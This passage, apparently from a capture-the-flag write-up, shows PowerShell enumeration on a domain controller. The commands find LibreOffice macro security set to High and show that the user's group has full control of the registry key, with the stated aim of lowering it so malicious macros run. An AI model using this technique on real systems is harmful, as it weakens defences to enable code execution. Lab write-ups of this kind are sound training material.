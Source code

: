 ```console
(remote) tstark@DC:C:\$ Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel"
Value        : 3
Final        : 1
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Policies\LibreOffice\org.openoffice.Offi
               ce.Common\Security\Scripting\MacroSecurityLevel
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Policies\LibreOffice\org.openoffice.Offi
               ce.Common\Security\Scripting
PSChildName  : MacroSecurityLevel
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry
```

The value is set to `3`, which means it's set to High Security level. We need to find a way to change this value to allow our macros to trigger. The ACLs on this key show that the `Registry Editors` group has `FullControl` and lucky for us we are also part of this group.

```console
(remote) tstark@DC:C:\$ $key = "HKLM:\SOFTWARE\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting"
(remote) tstark@DC:C:\$ (Get-Acl $key).Access
RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : OFFICE\Registry Editors
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : None

(remote) tstark@DC:C:\$ whoami /groups
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Group used for deny only
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
OFFICE\Registry Editors                    Group            S-1-5-21-1199398058-4196589450-691661856-1106 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

